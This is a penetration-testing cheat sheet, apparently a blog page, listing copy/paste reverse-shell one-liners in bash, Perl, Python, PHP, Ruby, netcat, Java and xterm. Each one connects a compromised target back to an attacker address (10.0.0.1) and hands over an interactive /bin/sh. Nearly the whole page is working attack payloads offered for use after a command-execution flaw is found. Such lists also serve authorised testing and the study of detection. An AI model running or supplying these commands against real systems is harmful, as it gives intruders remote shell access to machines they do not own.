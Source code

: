 ```yaml
---
layout: post
categories: cheatsheets
published: true
---
```

# Summary
{:.no_toc}

* toc
{:toc}

# General

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

There’s also an alternative PERL revere shell here.
Python

This was tested under Linux / Python 2.7:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

nc -e /bin/sh 10.0.0.1 1234

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

[Untested submission from anonymous reader]
xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
